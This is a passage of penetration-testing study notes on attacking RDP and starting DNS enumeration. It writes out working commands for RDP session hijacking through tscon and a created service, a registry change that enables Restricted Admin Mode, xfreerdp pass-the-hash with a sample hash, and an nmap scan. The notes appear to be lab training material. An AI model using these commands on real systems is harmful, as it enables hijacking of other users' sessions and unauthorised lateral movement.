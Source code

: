 ### Protocol Specific Attacks

#### RDP Session Hijacking - No Password and have SYSTEM level privileges
```cmd.exe
query user
```

```cmd.exe
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
It works by specifying which SESSION ID (`4` for the `lewen` session in the example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session)

#### RDP Session Hijacking - local administrator privileges
```cmd.exe
query user
```

```cmd.exe
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
```

```cmd.exe
net start sessionhijack
```
Once the service is started, a new terminal with the `lewen` user session will appear

### RDP Pass-the-Hash (PtH)

`Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
![[Pasted image 20230309101531.png]]

#### Enabling Restricted Admin Mode
```cmd.exe
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### PtH over xfreerdp
```Shell
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

### Latest RDP Vulnerabilities
[CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)


## Attacking DNS

### Enumeration

#### Enumerating DNS with Nmap
```Shell
nmap -p53 -Pn -sV -sC 10.10.110.213
```
